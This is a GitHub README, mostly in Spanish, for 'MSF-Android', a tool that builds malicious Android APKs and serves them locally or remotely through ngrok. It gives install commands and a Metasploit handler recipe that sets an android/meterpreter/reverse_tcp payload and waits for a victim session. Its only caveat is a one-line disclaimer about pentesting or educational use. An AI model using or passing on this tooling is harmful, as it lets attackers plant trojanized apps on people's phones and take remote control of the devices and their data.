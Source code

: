 # MSF-Android

Generador de APK's maliciosas para Android | local y remoto.

![msf_android](https://user-images.githubusercontent.com/75953873/156858658-57b6bb3f-e399-473f-a673-e83e8573b29b.png)

## 📷 SCREENSHOTS 

### Instalando NGROK:
![download_ngrok](https://user-images.githubusercontent.com/75953873/156858687-ddee2244-982a-4cd7-bff3-d7a0ea9e19f4.png)


### Creando APK:
![ngrok](https://user-images.githubusercontent.com/75953873/156858797-e04b002a-aa7a-45d5-bdab-2a59b076a56a.png)


### Obteniendo enlace **`LOCAL`** && **`REMOTO`**:
![downloadAPK](https://user-images.githubusercontent.com/75953873/156858874-aa842762-05d0-4d7b-831f-18f534e8ecda.png)

### Obteniendo una sesión meterpreter
![exploit](https://user-images.githubusercontent.com/75953873/156859040-6a96a969-cbeb-448e-ab64-07c36780a91b.png)

##### Abrimos una nueva terminal y ejecutamos:
```
> msfconsole
> use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp
> set LHOST 0.0.0.0
> run
```
![exploit_2](https://user-images.githubusercontent.com/75953873/156859055-666a76c4-d74b-48e4-a262-4f95f6dcebd6.png)


## Instalación / Installation

```
• git clone https://github.com/R3LI4NT/MSF-Android
• cd MSF-Android
• sudo python3 msfandroid.py
```


### Importante

**`ES:`** No me hago responsable del mal uso que se le pueda dar a esta herramienta, úselo para Pentesting o fines educativos.

**`EN:`**  I am not responsible for the misuse that may be given to this tool, use it for Pentesting or educational purposes.
